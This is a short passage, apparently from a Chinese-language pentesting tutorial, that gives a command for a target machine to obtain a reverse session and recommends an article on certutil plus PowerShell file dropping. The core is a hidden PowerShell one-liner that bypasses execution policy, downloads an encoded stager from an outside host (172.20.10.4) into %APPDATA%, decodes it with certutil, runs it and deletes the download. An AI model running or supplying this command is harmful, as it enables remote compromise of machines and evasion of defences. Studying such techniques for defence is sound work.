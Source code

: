 然后靶机执行如下命令即可获得反弹 session

```plain
powershell.exe ‐Win hiddeN ‐Exec ByPasS add‐content ‐path %APPDATA%\crt.cer (New‐Object Net.WebClient).DownloadString('http://172.20.10.4/crt.cer'); certutil ‐decode %APPDATA%\crt.cer %APPDATA%\stage.ps1 & start /b c
md /c powershell.exe ‐Exec Bypass ‐NoExit ‐File %APPDATA%\stage.ps1 & start /b cmd /c del %APPDATA%\crt.cer
```

关于 certutil + powershell 的实战食用方法这里推荐 Y4er 师傅的一篇文章： 
[极限环境使用 certutil+PowerShell 配合 Burp 快速落地文件](https://xz.aliyun.com/t/8345 "极限环境使用certutil+PowerShell配合Burp快速落地文件")

[![](assets/1701612219-35a13e66e0fdeb79986278a803cc23f3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20220307152549-cff96bde-9de7-1.png)
